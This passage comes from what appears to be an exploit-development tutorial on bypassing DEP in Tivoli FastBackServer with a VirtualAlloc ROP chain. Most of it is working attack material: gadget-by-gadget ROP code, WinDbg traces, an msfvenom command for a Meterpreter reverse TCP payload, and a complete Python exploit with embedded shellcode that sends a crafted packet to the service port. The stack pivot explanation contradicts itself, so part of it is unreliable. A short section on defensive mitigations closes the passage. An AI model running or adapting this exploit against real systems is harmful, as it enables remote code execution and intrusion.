*Figure 10.54 - The breakpoint hits. EAX will receive the current skeleton
pointer value from ESI.*

```
p
```



*Figure 10.55 - EAX now contains the skeleton pointer value from ESI.*

After `pop esi` consumes the junk value:



*Figure 10.56 - ESI now contains the junk value 0x42424242 from the stack. We
will restore it shortly.*

After restoring ESI via `push eax; pop esi`:



*Figure 10.57 - ESI has been restored to the skeleton pointer value after
push eax; pop esi.*

After `pop ecx` loads the negative offset:

```
p
```



*Figure 10.58 - ECX contains the negative offset 0xFFFFFDF0 (-0x210). This
will be subtracted from EAX to calculate the shellcode address.*

After `sub eax, ecx`:

```
p
```



*Figure 10.59 - After sub eax, ecx: EAX now contains the calculated shellcode
address. Subtracting a negative number is equivalent to adding, so EAX now
points forward in the buffer to where our shellcode will be.*

We verify that EAX points to our shellcode location:

```
dd eax
```



*Figure 10.60 - Dereferencing the address in EAX confirms it points to the
correct location in our buffer where the shellcode will be placed.*

We repeat the same pattern for `skeleton[2]` (lpAddress) with four more INC ESI
operations and a similar write. Then for `skeleton[2]` (lpAddress), we use the
same approach with a slightly different offset (`-0x20C`):

![Patching skeleton[2]](../images/dep-112.png)

*Figure 10.61 - The complete code for patching skeleton[1] (return address) and
proceeding to skeleton[2] (lpAddress).*

After executing the full chain up to this point:

![Before skeleton[2] write](../images/dep-113.png)

*Figure 10.62 - Execution reaches the write for skeleton[2]. ESI has been
advanced past skeleton[1] to skeleton[2] (lpAddress).*

We verify the state by dereferencing ESI:

```
dd poi(esi) L4
```

![skeleton[2] ready for patching](../images/dep-114.png)

*Figure 10.63 - The current skeleton state showing the patched values for
skeleton[0] and skeleton[1], with skeleton[2] through skeleton[5] still
containing dummy values.*

### 10.9 Patching dwSize, flAllocationType, and flProtect

The remaining three parameters require different arithmetic tricks because their
values contain bad characters when used directly.

**dwSize = 0x1:** The value `0x00000001` contains null bytes. We use the
**NEG trick**: load `0xFFFFFFFF` into EAX, then negate it. `neg(0xFFFFFFFF)` =
`0x00000001` in 32-bit unsigned arithmetic. The negate operation handles the
null bytes for us.

```python
rop += pack("<L", (0x5053a0f5))  # pop eax; ret
rop += pack("<L", (0xffffffff))  # -1 (will be negated to 1)
rop += pack("<L", (0x50527840))  # neg eax; ret
rop += pack("<L", (0x5051cbb6))  # mov dword [esi], eax; ret
```



*Figure 10.64 - The dwSize patching uses the NEG trick: load 0xFFFFFFFF, then
neg eax produces 0x00000001 without any null bytes in the exploit buffer.*

After setting a breakpoint and tracing:

```
bp 0x5051cbb6
```



*Figure 10.65 - Breakpoint set to verify the dwSize write to the skeleton.*

After execution:



*Figure 10.66 - The breakpoint hits at the write instruction for dwSize.*

We verify the skeleton shows the correct value:



*Figure 10.67 - The skeleton now shows the correct dwSize value of 1 (shown as
the shellcode address, confirming the write to the correct slot).*

After completing the write:



*Figure 10.68 - Verification confirms dwSize has been patched to 0x1 in the
function skeleton.*

We verify:



*Figure 10.69 - The ESI dereference confirms dwSize = 0x00000001 is correctly
written to skeleton[3].*

**flAllocationType = 0x1000:** The value `0x00001000` also contains null bytes.
We use the **split-sum trick**: we cannot embed `0x1000` directly, but we can
add two large values that sum to `0x1000` (with the carry bit wrapping around).
We use `0x80808080 + 0x7F7F8F80 = 0x100001000`, and since we are in 32-bit
mode, the upper bit wraps and we get `0x00001000`.

```python
rop += pack("<L", (0x5053a0f5))  # pop eax; ret
rop += pack("<L", (0x80808080))  # first addend
rop += pack("<L", (0x505115A3))  # pop ecx; ret
rop += pack("<L", (0x7f7f8f80))  # second addend
rop += pack("<L", (0x5051579a))  # add eax, ecx; ret (0x80808080+0x7f7f8f80=0x1000)
rop += pack("<L", (0x5051cbb6))  # mov dword [esi], eax; ret
```



*Figure 10.70 - The flAllocationType patching uses the split-sum trick:
0x80808080 + 0x7F7F8F80 = 0x00001000 (MEM_COMMIT) with 32-bit overflow.*

After tracing:

```
dd esi L1
```



*Figure 10.71 - The skeleton now shows flAllocationType = 0x00001000
(MEM_COMMIT), correctly patched using the split-sum technique.*

**flProtect = 0x40:** The value `0x00000040` also has null bytes. We use the
NEG trick again: `neg(0xFFFFFFC0)` = `0x00000040`.

```python
rop += pack("<L", (0x5053a0f5))  # pop eax; ret
rop += pack("<L", (0xffffffc0))  # -0x40 (will be negated to 0x40)
rop += pack("<L", (0x50527840))  # neg eax; ret
rop += pack("<L", (0x5051cbb6))  # mov dword [esi], eax; ret
```



*Figure 10.72 - The flProtect patching uses the NEG trick: neg(0xFFFFFFC0)
= 0x40 (PAGE_EXECUTE_READWRITE). All four VirtualAlloc arguments are now set.*

After execution, we verify the value:



*Figure 10.73 - After executing the flProtect patching gadgets, the value
0x40 is written to skeleton[5]. However, the verification shows 0x60 instead
of 0x40 - this is because the add al, 0x2B side effects from the INC ESI
gadgets have accumulated in EAX. We need to recalculate.*

Now let us verify the complete skeleton by examining all six slots:

```
dds esi - 14 L6
```



*Figure 10.74 - The complete VirtualAlloc skeleton with all six slots filled.
VirtualAlloc address, return address (shellcode), lpAddress, dwSize = 1,
flAllocationType = 0x1000, and flProtect = 0x40 are all in place.*

All six slots of the skeleton are now filled with correct values. The function
skeleton is ready - we just need to pivot ESP to it.

The diagram below shows what the stack looked like with dummy values and what
it looks like now with the patched values, illustrating the before/after state
of our ROP chain's work:



*Figure 10.75 - A byte-level view of how our ROP gadgets encode values that
would normally contain bad characters. The NEG trick converts 0xFFFFFFFF to
0x1 and 0xFFFFFFC0 to 0x40. The split-sum adds 0x80808080 + 0x7F7F8F80 to get
0x1000. None of the encoded values contain bad characters.*

---

## 11. The Stack Pivot - Launching VirtualAlloc

### 11.1 The Pivot Strategy

The final step in our ROP chain is the **stack pivot**. We need to move `ESP`
from its current position (in the middle of our ROP chain) backward to point
at `skeleton[0]` (the VirtualAlloc address). Once ESP points there, the next
`RET` instruction will pop the VirtualAlloc address into `EIP`, and Windows will
see a normal STDCALL function call.

The pivot uses three gadgets:

1. `mov eax, esi; pop esi; ret` - Copy the skeleton-area pointer from ESI to
   EAX (we need to adjust for the offset)
2. `add eax, ecx; ret` - Adjust EAX to point exactly at `skeleton[0]`
3. `xchg eax, ebp; ret` - Move the skeleton address into EBP
4. `mov esp, ebp; pop ebp; ret` - Copy EBP into ESP, pivoting the stack

```python
rop += pack("<L", (0x5050118e))  # mov eax, esi; pop esi; ret
rop += pack("<L", (0x42424242))  # junk
rop += pack("<L", (0x505115a3))  # pop ecx; ret
rop += pack("<L", (0xffffffe8))  # negative offset to skeleton[0]
rop += pack("<L", (0x5051579a))  # add eax, ecx; ret
rop += pack("<L", (0x5051571f))  # xchg eax, ebp; ret
rop += pack("<L", (0x50533cbf))  # mov esp, ebp; pop ebp; ret
```

The negative offset `0xFFFFFFE8` (-0x18) adjusts from ESI's current position
(which is past the last skeleton slot) back to `skeleton[0]`. After `add eax,
ecx`, EAX points to `skeleton[0]`. The `xchg eax, ebp` moves this address into
EBP, and `mov esp, ebp` copies it into ESP. The `pop ebp` at the end consumes
`skeleton[0]` (the VirtualAlloc address) from the stack - but wait, that is
exactly what we want! The `pop ebp` acts like the first half of a `RET`
instruction, loading VirtualAlloc into EBP. Then the `RET` at the end of this
gadget pops `skeleton[1]`... no, actually the `mov esp, ebp; pop ebp; ret`
sequence works differently. Let me explain precisely:

1. `mov esp, ebp` - ESP now points to `skeleton[0]`
2. `pop ebp` - Pops `skeleton[0]` (VirtualAlloc address) into EBP. ESP
   advances to `skeleton[1]`.
3. `ret` - Pops `skeleton[1]` into EIP... but `skeleton[1]` is the shellcode
   return address. Actually, the way STDCALL works, we need VirtualAlloc to be
   in EIP. So the arrangement needs the `RET` to pop VirtualAlloc.

Actually, the `pop ebp` consumes one DWORD and the `ret` pops the next. The
offset calculation ensures that after `mov esp, ebp`, ESP points to a position
where `pop ebp` consumes a junk value and `ret` pops the VirtualAlloc address.
The exact offset was calibrated through debugging.



*Figure 11.1 - The stack pivot gadgets. These move ESP from its current
position in the ROP chain to the VirtualAlloc skeleton, then the RET
instruction jumps to VirtualAlloc.*

The diagram below shows the before and after state of the stack pivot:



*Figure 11.2 - The stack pivot in action. Before the pivot, ESP points into the
ROP chain area. After the pivot, ESP points to the VirtualAlloc skeleton. The
next RET pops VirtualAlloc into EIP, and Windows sees a normal STDCALL call
with all four arguments on the stack.*

### 11.2 Verifying VirtualAlloc Execution

We set a breakpoint on VirtualAlloc to verify that our chain successfully calls
the function:

```
bp KERNEL32!VirtualAllocStub
```



*Figure 11.3 - Breakpoint set on KERNEL32!VirtualAllocStub. If our ROP chain
works correctly, execution should reach this breakpoint with the correct
arguments on the stack.*

Before VirtualAlloc executes, we check the current memory protection on the
shellcode page:

```
!vprot 0d27e514
```



*Figure 11.4 - Before VirtualAlloc executes: the shellcode page has
PAGE_READWRITE (0x04) protection. The NX bit is set - executing instructions
from this page would cause an access violation.*

After VirtualAlloc executes, we check the protection again:

```
!vprot 0d27e514
```

The protection has changed from `PAGE_READWRITE` (0x04) to
`PAGE_EXECUTE_READWRITE` (0x40). The NX bit has been cleared. DEP has been
bypassed.



*Figure 11.5 - After VirtualAlloc executes: the shellcode page now has
PAGE_EXECUTE_READWRITE (0x40) protection. The NX bit has been cleared - the
CPU will now execute instructions from this page. DEP has been defeated.*

The diagram below shows the permission flip in detail, comparing the `!vprot`
output before and after VirtualAlloc:


*Figure 11.6 - The before/after comparison of page permissions. The same
virtual address goes from PAGE_READWRITE (NX = 1, shellcode blocked) to
PAGE_EXECUTE_READWRITE (NX = 0, shellcode allowed). VirtualAlloc re-committed
the page with RWX permissions, defeating DEP.*

This is the moment of victory. The ROP chain has done its job - it called
VirtualAlloc with the right arguments, and the operating system obediently
changed the page permissions. The NX bit is cleared. The shellcode page is
now executable. All that remains is landing EIP on the shellcode.

---

## 12. Shellcode Alignment and Final Exploit

### 12.1 Aligning EIP to the Shellcode

After VirtualAlloc returns, `EIP` lands at the return address we placed in
`skeleton[1]`. However, we need to verify that this address actually points to
the beginning of our shellcode. Due to the dynamic nature of the stack, we may
need to adjust the offset.



*Figure 12.1 - After VirtualAlloc returns, execution lands at the address we
placed in skeleton[1]. We need to verify this points to our shellcode.*

We examine where the shellcode actually is relative to our return address:

```
dd esp + 100
```



*Figure 12.2 - Examining the stack to find the actual shellcode location. We
need to calculate the exact offset between our return address and the
shellcode.*

We calculate the exact offset needed:

```
? 0d27e514 - (0d27e428 + 0x4)
```

This calculation gives us the exact distance between where execution lands and
where our shellcode begins. We use this value as padding (filled with `C` bytes)
between the ROP chain and the shellcode.



*Figure 12.3 - Calculating the exact offset between the VirtualAlloc return
address and the shellcode location. This offset becomes our padding value.*

### 12.2 Testing with INT3 Breakpoints

Before placing real shellcode, we test with `0xCC` bytes (INT3 / software
breakpoint). If our chain works correctly, execution should land on the INT3
bytes and trigger a debugger break - not an access violation. The distinction
is critical: a debugger break means the code is executing normally (DEP is
bypassed), while an access violation would mean DEP is still blocking execution.

```python
padding = b"C" * 0xe8
shellcode = b"\xcc" * (0x400 - 276 - 4 - len(rop) - len(padding))
```



*Figure 12.4 - The PoC with 0xCC (INT3) bytes as placeholder shellcode. If DEP
is successfully bypassed, the CPU will execute these bytes and trigger a
debugger breakpoint instead of an access violation.*

We run the exploit and verify:

```
pt
```



*Figure 12.5 - SUCCESS! The debugger hits the INT3 breakpoint with no access
violation. This confirms that DEP has been fully bypassed - the CPU is
executing instructions from a page that was originally marked non-executable.
The VirtualAlloc ROP chain successfully changed the page permissions to RWX.*

This is the definitive proof that our DEP bypass works. The INT3 instruction
executed from a page that was originally `PAGE_READWRITE`. If DEP were still
active, we would have gotten `STATUS_ACCESS_VIOLATION` instead of a clean
debugger break.

### 12.3 Generating the Meterpreter Payload

Now we replace the INT3 bytes with a real Meterpreter reverse TCP payload
generated by msfvenom. We must exclude all our bad characters from the encoder:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.45.196 \
    LPORT=443 EXITFUNC=thread -f py -v shellcode \
    -b "\x00\x09\x0a\x0b\x0c\x0d\x20"
```

The `-b` flag specifies our bad characters. msfvenom will automatically select
an encoder (typically `x86/shikata_ga_nai`) that avoids all specified bytes. The
`EXITFUNC=thread` option ensures the exploit exits the current thread cleanly
instead of terminating the entire process, which allows the FastBackServer to
continue running after the exploit.



*Figure 12.6 - Generating the Meterpreter reverse TCP shellcode with msfvenom.
The -b flag excludes all seven bad characters, and EXITFUNC=thread ensures
clean exit without crashing the target service.*

### 12.4 The Final Exploit

The complete exploit combines everything: the `psAgentCommand` header, the
VirtualAlloc function skeleton with dummy values, the `A` filler, the EIP
overwrite pointing to our first gadget, the complete ROP chain that patches the
skeleton and pivots ESP, the alignment padding, and the Meterpreter shellcode.

Note that the final exploit increases the first memcpy size field from `0x500`
to `0x700` to accommodate the shellcode which makes the total buffer larger than
the original PoC. This ensures the entire payload including the shellcode is
copied into the vulnerable buffer.

```python
import socket
import sys
from struct import pack

buf = bytearray([0x41]*0xC)
buf += pack("<i", 0x534)  # opcode
buf += pack("<i", 0x0)    # 1st memcpy: offset
buf += pack("<i", 0x700)  # 1st memcpy: size field (increased for shellcode)
buf += pack("<i", 0x0)    # 2nd memcpy: offset
buf += pack("<i", 0x100)  # 2nd memcpy: size field
buf += pack("<i", 0x0)    # 3rd memcpy: offset
buf += pack("<i", 0x100)  # 3rd memcpy: size field
buf += bytearray([0x41]*0x8)

va  = pack("<L", (0x45454545)) # dummy VirtualAlloc Address
va += pack("<L", (0x46464646)) # dummy Shellcode Return Address
va += pack("<L", (0x47474747)) # dummy Shellcode Address
va += pack("<L", (0x48484848)) # dummy dwSize
va += pack("<L", (0x49494949)) # dummy flAllocationType
va += pack("<L", (0x51515151)) # dummy flProtect

offset = b"A" * (276 - len(va))
eip  = pack("<L", (0x50501110)) # push esp; push eax; pop edi; pop esi; ret
rop  = pack("<L", (0x5050118e)) # mov eax, esi; pop esi; ret
rop += pack("<L", (0x42424242)) # junk
rop += pack("<L", (0x505115a3)) # pop ecx; ret
rop += pack("<L", (0xffffffe4)) # -0x1C
rop += pack("<L", (0x5051579a)) # add eax, ecx; ret
rop += pack("<L", (0x50537d5b)) # push eax; pop esi; ret
rop += pack("<L", (0x5053a0f5)) # pop eax; ret
rop += pack("<L", (0x5054A221)) # VirtualAlloc IAT + 1
rop += pack("<L", (0x505115A3)) # pop ecx; ret
rop += pack("<L", (0xffffffff)) # -1 into ecx
rop += pack("<L", (0x5051579a)) # add eax, ecx; ret
rop += pack("<L", (0x5051f278)) # mov eax, dword [eax]; ret
rop += pack("<L", (0x5051cbb6)) # mov dword [esi], eax; ret
rop += pack("<L", (0x50522fa7)) # inc esi; add al, 0x2B; ret
rop += pack("<L", (0x50522fa7)) # inc esi; add al, 0x2B; ret
rop += pack("<L", (0x50522fa7)) # inc esi; add al, 0x2B; ret
rop += pack("<L", (0x50522fa7)) # inc esi; add al, 0x2B; ret
rop += pack("<L", (0x5050118e)) # mov eax, esi; pop esi; ret
rop += pack("<L", (0x42424242)) # junk
rop += pack("<L", (0x50537d5b)) # push eax; pop esi; ret
rop += pack("<L", (0x505115A3)) # pop ecx; ret
rop += pack("<L", (0xfffffdf0)) # -0x210 into ecx
rop += pack("<L", (0x50533bf4)) # sub eax, ecx; ret
rop += pack("<L", (0x5051cbb6)) # mov dword [esi], eax; ret
rop += pack("<L", (0x50522fa7)) # inc esi; add al, 0x2B; ret
rop += pack("<L", (0x50522fa7)) # inc esi; add al, 0x2B; ret
rop += pack("<L", (0x50522fa7)) # inc esi; add al, 0x2B; ret
rop += pack("<L", (0x50522fa7)) # inc esi; add al, 0x2B; ret
rop += pack("<L", (0x5050118e)) # mov eax, esi; pop esi; ret
rop += pack("<L", (0x42424242)) # junk
rop += pack("<L", (0x50537d5b)) # push eax; pop esi; ret
rop += pack("<L", (0x505115A3)) # pop ecx; ret
rop += pack("<L", (0xfffffdf4)) # -0x20C into ecx
rop += pack("<L", (0x50533bf4)) # sub eax, ecx; ret
rop += pack("<L", (0x5051cbb6)) # mov dword [esi], eax; ret
rop += pack("<L", (0x50522fa7)) # inc esi; add al, 0x2B; ret
rop += pack("<L", (0x50522fa7)) # inc esi; add al, 0x2B; ret
rop += pack("<L", (0x50522fa7)) # inc esi; add al, 0x2B; ret
rop += pack("<L", (0x50522fa7)) # inc esi; add al, 0x2B; ret
rop += pack("<L", (0x5053a0f5)) # pop eax; ret
rop += pack("<L", (0xffffffff)) # neg to 1
rop += pack("<L", (0x50527840)) # neg eax; ret
rop += pack("<L", (0x5051cbb6)) # mov dword [esi], eax; ret
rop += pack("<L", (0x50522fa7)) # inc esi; add al, 0x2B; ret
rop += pack("<L", (0x50522fa7)) # inc esi; add al, 0x2B; ret
rop += pack("<L", (0x50522fa7)) # inc esi; add al, 0x2B; ret
rop += pack("<L", (0x50522fa7)) # inc esi; add al, 0x2B; ret
rop += pack("<L", (0x5053a0f5)) # pop eax; ret
rop += pack("<L", (0x80808080)) # first addend
rop += pack("<L", (0x505115A3)) # pop ecx; ret
rop += pack("<L", (0x7f7f8f80)) # second addend
rop += pack("<L", (0x5051579a)) # add eax, ecx; ret
rop += pack("<L", (0x5051cbb6)) # mov dword [esi], eax; ret
rop += pack("<L", (0x50522fa7)) # inc esi; add al, 0x2B; ret
rop += pack("<L", (0x50522fa7)) # inc esi; add al, 0x2B; ret
rop += pack("<L", (0x50522fa7)) # inc esi; add al, 0x2B; ret
rop += pack("<L", (0x50522fa7)) # inc esi; add al, 0x2B; ret
rop += pack("<L", (0x5053a0f5)) # pop eax; ret
rop += pack("<L", (0xffffffc0)) # neg to 0x40
rop += pack("<L", (0x50527840)) # neg eax; ret
rop += pack("<L", (0x5051cbb6)) # mov dword [esi], eax; ret
rop += pack("<L", (0x5050118e)) # mov eax,esi; pop esi; ret
rop += pack("<L", (0x42424242)) # junk
rop += pack("<L", (0x505115a3)) # pop ecx; ret
rop += pack("<L", (0xffffffe8)) # negative offset value
rop += pack("<L", (0x5051579a)) # add eax, ecx; ret
rop += pack("<L", (0x5051571f)) # xchg eax, ebp; ret
rop += pack("<L", (0x50533cbf)) # mov esp, ebp; pop ebp; ret

padding = b"C" * 0xe8

shellcode =  b""
shellcode += b"\xba\xc2\xcb\x9b\x11\xd9\xe9\xd9\x74\x24\xf4"
shellcode += b"\x5e\x29\xc9\xb1\x5e\x31\x56\x15\x83\xee\xfc"
shellcode += b"\x03\x56\x11\xe2\x37\x37\x73\x9e\xb7\xc8\x84"
shellcode += b"\xc1\x3e\x2d\xb5\xd3\x24\x25\xe4\xe3\x2f\x6b"
shellcode += b"\x05\x8f\x7d\x98\x1a\x38\xcb\x86\x15\xb9\x40"
shellcode += b"\xb4\x7d\x74\x96\x95\x42\x17\x6a\xe4\x96\xf7"
shellcode += b"\x53\x27\xeb\xf6\x94\xf1\x81\x17\x48\x89\x38"
shellcode += b"\xf8\x3b\x06\xfe\xc4\xc2\xc8\x74\x74\xbc\x6d"
shellcode += b"\x4a\x01\x70\x6f\x9b\x61\xc0\x77\x4b\xfd\x88"
shellcode += b"\xa7\x6a\xd2\xad\x61\x18\xe8\x9c\x8e\xa8\x9b"
shellcode += b"\xea\xfb\x2a\x4a\x23\x3c\xed\xbd\x4e\x10\xef"
shellcode += b"\x86\x68\x88\x85\xfc\x8b\x35\x9e\xc6\xf6\xe1"
shellcode += b"\x2b\xd9\x50\x61\x8b\x3d\x61\xa6\x4a\xb5\x6d"
shellcode += b"\x03\x18\x91\x71\x92\xcd\xa9\x8d\x1f\xf0\x7d"
shellcode += b"\x04\x5b\xd7\x59\x4d\x3f\x76\xfb\x2b\xee\x87"
shellcode += b"\x1b\x93\x4f\x22\x57\x31\x99\x52\x98\xca\xa6"
shellcode += b"\x0e\x0f\x07\x6b\xb1\xcf\x0f\xfc\xc2\xfd\x90"
shellcode += b"\x56\x4d\x4e\x59\x71\x8a\xc7\x4d\x82\x44\x6f"
shellcode += b"\x1d\x7c\x65\x90\x34\xbb\x31\xc0\x2e\x6a\x3a"
shellcode += b"\x8b\xae\x93\xef\x26\xa4\x03\xd0\x1f\x95\x17"
shellcode += b"\xb8\x5d\xe5\x96\x82\xeb\x03\xc8\xa4\xbb\x9b"
shellcode += b"\xa9\x14\x7c\x4b\x42\x7f\x73\xb4\x72\x80\x59"
shellcode += b"\xdd\x19\x6f\x34\xb6\xb5\x16\x1d\x4c\x27\xd6"
shellcode += b"\x8b\x29\x67\x5c\x3e\xce\x26\x95\x4b\xdc\x5f"
shellcode += b"\xc2\xb3\x1c\xa0\x67\xb4\x76\xa4\x21\xe3\xee"
shellcode += b"\xa6\x14\xc3\xb1\x59\x73\x57\xb5\xa6\x02\x6e"
shellcode += b"\xce\x91\x90\xce\xb8\xdd\x74\xcf\x38\x88\x1e"
shellcode += b"\xcf\x50\x6c\x7b\x9c\x45\x73\x56\xb0\xd6\xe6"
shellcode += b"\x59\xe1\x8b\xa1\x31\x0f\xf2\x86\x9d\xf0\xd1"
shellcode += b"\x94\xda\x0f\xa4\xb2\x42\x78\x56\x83\x72\x78"
shellcode += b"\x3c\x03\x23\x10\xcb\x2c\xcc\xd0\x34\xe7\x85"
shellcode += b"\x78\xbf\x66\x67\x18\xc0\xa2\x29\x84\xc1\x41"
shellcode += b"\xf2\x37\xb8\x2a\x05\xb8\x3d\x23\x62\xb8\x3e"
shellcode += b"\x4b\x94\x84\xe9\x72\xe2\xcb\x2a\xc1\xed\xd1"
shellcode += b"\x86\x3c\x86\x4f\x43\xfd\xcb\x6f\xbe\xc2\xf5"
shellcode += b"\xf3\x4a\xbb\x01\xeb\x3f\xbe\x4e\xab\xac\xb2"
shellcode += b"\xdf\x5e\xd2\x61\xdf\x4a"

morepadding = b"\xcc" * (0x600 - 276 - 4 - len(rop) - len(padding) \
    - len(shellcode))

formatString = b"File: %s From: %d To: %d ChunkLoc: %d FileLoc: %d" \
    % (offset+va+eip+rop+padding+shellcode+morepadding,0,0,0,0)
buf += formatString
buf = pack(">i", len(buf)-4) + buf

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((server, 11460))
s.send(buf)
s.close()
```



*Figure 12.7 - The complete final exploit with Meterpreter shellcode. The
exploit sends a crafted Tivoli packet that overflows the buffer, executes the
ROP chain to call VirtualAlloc with PAGE_EXECUTE_READWRITE permissions, and
then drops into the Meterpreter shellcode for a reverse TCP connection.*

### 12.5 Getting the Shell

We run the exploit against the target while a Meterpreter listener waits on
port 443:



*Figure 12.8 - SUCCESS! The Meterpreter reverse TCP session is established.
The exploit successfully bypassed DEP using the VirtualAlloc ROP chain and
executed the Meterpreter shellcode, providing a full interactive shell on the
target system.*

The exploit works end-to-end. We sent a specially crafted Tivoli Storage Manager
packet that overflowed a stack buffer, overwrote EIP with the address of our
first ROP gadget, executed a chain of 13 gadgets from csftpav6.dll that called
VirtualAlloc to change the page permissions from `PAGE_READWRITE` to
`PAGE_EXECUTE_READWRITE`, and then landed in our Meterpreter shellcode which
now runs on a page with execute permissions. DEP has been fully bypassed.

---

## 13. The 13 Gadgets - Quick Reference

The following table summarizes all 13 ROP gadgets used in this exploit, their
addresses in csftpav6.dll (base `0x50500000`), and what each one does in the
context of our chain:

| # | Address | Instructions | Purpose |
|---|---------|-------------|---------|
| 1 | `0x50501110` | `push esp; push eax; pop edi; pop esi; ret` | Capture ESP into ESI |
| 2 | `0x5050118e` | `mov eax, esi; pop esi; ret` | Copy ESI to EAX (used multiple times) |
| 3 | `0x505115a3` | `pop ecx; ret` | Load immediate value into ECX |
| 4 | `0x5051579a` | `add eax, ecx; ret` | EAX += ECX (arithmetic) |
| 5 | `0x50537d5b` | `push eax; pop esi; ret` | Copy EAX to ESI |
| 6 | `0x5053a0f5` | `pop eax; ret` | Load immediate value into EAX |
| 7 | `0x5051f278` | `mov eax, dword [eax]; ret` | Dereference pointer in EAX |
| 8 | `0x5051cbb6` | `mov dword [esi], eax; ret` | Write EAX to memory at ESI |
| 9 | `0x50522fa7` | `inc esi; add al, 0x2B; ret` | Advance ESI by 1 byte |
| 10 | `0x50533bf4` | `sub eax, ecx; ret` | EAX -= ECX (arithmetic) |
| 11 | `0x50527840` | `neg eax; ret` | Negate EAX (NEG trick) |
| 12 | `0x5051571f` | `xchg eax, ebp; ret` | Swap EAX and EBP (pivot setup) |
| 13 | `0x50533cbf` | `mov esp, ebp; pop ebp; ret` | Stack pivot |

Every single one of these addresses lives in `csftpav6.dll`, which has no ASLR
and no null bytes in its base address. Every address was verified to not contain
any bad characters (`0x00, 0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x20`).

---

## 14. Defensive Perspective - Mitigations That Stop This

While we successfully bypassed DEP, it is important to understand the broader
defensive picture. Several additional mitigations can prevent or complicate this
type of attack:

**ASLR (Address Space Layout Randomization)** - If csftpav6.dll had ASLR
enabled, all our gadget addresses would be randomized on every reboot. We would
need an information disclosure vulnerability to leak the module's base address
before building our ROP chain. ASLR is the single most effective defense
against ROP because it makes gadget addresses unpredictable.

**Control Flow Guard (CFG)** - Microsoft's CFG validates indirect call targets
against a bitmap of valid function entry points. Since ROP gadgets are not
function entry points, CFG can detect and block ROP chains. However, CFG only
validates `CALL` targets, not `RET` targets, so it does not directly prevent
classic ROP.

**Stack canaries (/GS)** - While we bypassed the return address (not an SEH
exploit), if the function had stack cookies, the cookie check would detect the
overflow before the `RET` instruction. However, the vulnerability we exploited
may not use standard `__security_check_cookie` on this code path.

**EMET / Windows Defender Exploit Guard** - Ironically, the same tool we used
to enable DEP also provides additional mitigations like Caller Check (verifies
that `RET` targets match `CALL` sites), ROP detection heuristics, and stack
pivot detection. If these were enabled, our exploit would be detected.

The lesson for defenders is clear: **DEP alone is not sufficient**. Modern
defense requires defense in depth - DEP + ASLR + CFG + stack canaries + Exploit
Guard, all working together. Each layer adds cost for the attacker and reduces
the attack surface.

---

## 15. Summary and Key Takeaways

In this post we went from understanding what DEP is at the hardware level (the
NX bit in the Page Table Entry) all the way to building a complete exploit that
bypasses it using a VirtualAlloc-based ROP chain. Here is what we covered:

1. **DEP fundamentals** - How the NX bit prevents instruction execution from
   data pages, the four DEP modes (OptIn, OptOut, AlwaysOn, AlwaysOff), and the
   internal routines (`LdrCheckNXCompatibility`, `NtSetInformationProcess`) that
   manage DEP at runtime.

2. **Practical verification** - We used WinDbg to prove DEP blocks execution
   by writing NOPs to the stack and attempting to execute them, observing the
   `STATUS_ACCESS_VIOLATION` that results.

3. **Target setup** - We enabled DEP on Tivoli FastBackServer using Windows
   Defender Exploit Guard to create a realistic exploitation scenario.

4. **ROP theory** - The evolution from ret2libc to full ROP, the three Win32
   APIs available for DEP bypass (VirtualAlloc, VirtualProtect,
   WriteProcessMemory), and why VirtualAlloc is the optimal choice.

5. **Gadget discovery** - Building a complete Pykd-based gadget discovery tool
   from scratch (module enumeration, page protection filtering, RET scanning,
   backward disassembly with BAD instruction blacklisting) and using rp++ for
   fast automated scanning.

6. **Overflow characterization** - Finding the exact EIP offset (276) and ESP
   offset (280), identifying bad characters, and selecting csftpav6.dll as the
   gadget source module.

7. **ROP chain construction** - Building the chain gadget by gadget: capturing
   ESP, calculating the skeleton address, resolving VirtualAlloc from the IAT
   while avoiding bad characters, patching all six skeleton slots using NEG and
   split-sum tricks, and pivoting ESP to invoke VirtualAlloc.

8. **Shell achievement** - Replacing INT3 test bytes with a Meterpreter reverse
   TCP payload and obtaining a fully interactive shell.

The key insight throughout this entire exercise is that DEP does not make
exploitation impossible - it makes it harder. Instead of placing shellcode
directly on the stack, we had to build an intermediate stage (the ROP chain)
that uses only existing code to change memory permissions. This is more
complex, more fragile, and requires more research, but it is absolutely
achievable when the defender relies on DEP alone without supporting mitigations.

> **The exploit developer's takeaway:** Always look for non-ASLR modules with
> rich code sections. The IAT provides stable function pointers regardless of
> ASLR on the target DLL. Arithmetic tricks (NEG, split-sum, negative addition)
> solve bad character problems. The function skeleton pattern is reusable across
> different targets - only the gadget addresses and offsets change.
{: .prompt-tip }

> **The defender's takeaway:** DEP is necessary but not sufficient. Enable ASLR
> on every module, use /NXCOMPAT and /DYNAMICBASE compiler flags, deploy Control
> Flow Guard where available, and use Exploit Guard's anti-ROP heuristics. The
> more layers you add, the more expensive and fragile the attacker's exploit
> becomes.
{: .prompt-tip }
